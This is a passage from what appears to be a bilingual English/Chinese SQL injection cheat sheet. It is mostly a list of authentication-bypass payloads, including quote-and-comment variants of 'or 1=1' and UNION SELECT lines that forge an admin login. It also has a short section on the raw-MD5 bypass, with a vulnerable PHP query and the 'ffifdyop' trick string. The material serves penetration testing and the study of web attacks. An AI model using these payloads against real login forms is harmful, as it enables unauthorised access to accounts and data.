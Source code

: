 ```sql
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

## Authentication Bypass (Raw MD5)

当使用md5数据时，pass参数将会以一个简单的字符串来查询而不是十六进制字符串

```php
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```

Allowing an attacker to craft a string with a `true` statement such as `' or 'SOMETHING`

允许攻击者使用“true”语句来生成payload(例如'or' SOMETHING)

```php
md5("ffifdyop", true) = 'or'6�]��!r,��b
```
